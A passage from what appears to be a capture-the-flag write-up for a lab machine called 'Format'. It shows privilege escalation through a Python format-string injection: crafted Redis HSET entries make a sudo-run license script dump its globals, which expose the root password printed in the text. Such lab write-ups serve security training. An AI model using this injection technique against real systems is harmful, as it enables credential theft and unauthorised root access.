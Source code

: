 I first tried to use HSET to insert a user of our own choosing:

{% code overflow="wrap" %}
```
redis /run/redis/redis.sock> HSET testuser username testing username {self.__init__.__globals__} password {self.__init__.__globals__} first-name {self.__init__.__globals__} last-name {self.__init__.__globals__} pro false
(integer) 5

cooper@format:~$ sudo /usr/bin/license -ptestuser
Traceback (most recent call last):
  File "/usr/bin/license", line 65, in <module>
    license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
KeyError: 'self'
```
{% endcode %}

We can see that this is making an error occur within the script. We can see that the `format()` function uses `license=l`, so we can use that to dump the script's global context out:

{% code overflow="wrap" %}
```
redis /run/redis/redis.sock> HSET ee username {license.__init__.__globals__} password test first-name test last-name test pro false
(integer) 5

cooper@format:~$ sudo /usr/bin/license -p ee

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7d64b4fc10>
<TRUNCATED>
```
{% endcode %}

Within this entire string is the `root` password of :`unCR4ckaBL3Pa$$w0rd`. We can then `su` to `root`.

<figure><img src="../../.gitbook/assets/image (684) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
